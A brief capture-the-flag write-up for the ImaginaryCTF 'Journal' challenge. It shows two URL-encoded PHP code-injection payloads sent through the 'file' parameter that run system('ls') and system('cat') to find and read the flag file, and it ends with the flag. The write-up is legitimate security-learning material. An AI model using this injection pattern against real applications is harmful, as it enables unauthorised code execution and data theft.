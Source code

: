 # Journal
Solved by **Yappare**

## Question
dear diary, there is no LFI in this app

## Solution
ref: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp
`http://journal.chal.imaginaryctf.org/?file=%27,%27a%27)%20===%20false%20and%20system(%27ls%27)%20and%20strpos(%27a`
Result shows the flag txt file flag-cARdaInFg6dD10uWQQgm.txt
Read it using rce
`http://journal.chal.imaginaryctf.org/?file=%27,%27a%27)%20===%20false%20and%20system(%27cat%20/flag-cARdaInFg6dD10uWQQgm.txt%27)%20and%20strpos(%27a`



### Flag
`ictf{assertion_failed_e3106922feb13b10}`
